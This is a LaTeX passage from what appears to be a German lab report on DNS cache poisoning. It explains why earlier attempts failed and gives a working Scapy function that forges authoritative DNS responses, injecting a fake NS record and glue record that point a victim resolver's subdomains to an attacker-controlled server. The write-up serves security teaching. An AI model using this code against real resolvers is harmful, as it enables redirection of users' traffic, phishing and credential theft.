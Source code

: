 \documentclass[10pt,a4paper]{article}
\begin{document}
Nach mehreren weiteren Versuchen war das \glqq injecten\grqq\ eines NS-Records letzendlich möglich. Der Grund dafür lag in mehreren kleineren Fehlern.
\begin{itemize}
	\item[1.] Bei unseren vorherigen Antworten, haben wir keine vollständige Antwort gesendet, sondern lediglich welcher NS-Server für die Domain zuständig ist.
	\item[2.] Die Flag für \glqq recursion desired\grqq\ (rd) wurde auf den Wert 1 gesetzt um die Anfrage zu spiegeln. Da im Request bereits eine rekursive Auflösung der IP angefragt wurde, musste dieses Verhalten ebenfalls vom Angreifer gespiegelt werden.
\end{itemize}

\section{Verbesserungen im Code}
Durch die aufgezählten Veränderungen, ergab sich auch ein leicht anderer Source-Code für die die Funktion \emph{forged\_ns\_response()}. Die geänderten Codezeilen werden im folgenden Listing farblich hervorgehoben, um die Fehler noch einmal deutlich zu kennzeichnen.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(
        sport=53, dport=victim_dns_port_out) / DNS(
        id=id,  # Query ID / transaction id
        qr=1,  # Response
        opcode=0,  # QUERY
        aa=1,  # Authoritative answers, as we are sending a response
        tc=0,  # Not truncated
        rd=1,  # Mirror request flag
        ra=1,  # Recursion available
        z=0,  # Reserved and must be zero
        rcode=0,  # Response code for "ok"
        qdcount=1,  # Question record count
        nscount=1,  # Authority count
        arcount=1,  # Additional record count
        ancount=1,  # Answer count
        # AD and CD bits are defined in RFC 2535
        ad=0,  # Authentic Data
        cd=0,  # Checking Disabled
        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=DNSRR(rrname=target_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL),
        ns=DNSRR(rrname=victim_base_domain, type='NS', rdata="forged-ns.bank.com", ttl=MAX_TTL),
        ar=DNSRR(rrname="forged-ns.bank.com", type='A', rdata=attacker_dns_ip, ttl=MAX_TTL)
    )
    return response
\end{lstlisting}
\end{center}

Durch die gezeigten Änderungen waren wir letztendlich in der Lage einen gefälschten NS-Record in den Cache des Victim-DNS zu schleusen und somit alle Subdomains unter unsere Kontrolle zu bringen wie auch im folgenden Bild zu sehen ist.
\begin{figure}
	\centering
	\texttt{[image: successful\_attack.jpeg]} 
\end{figure}
\end{document}

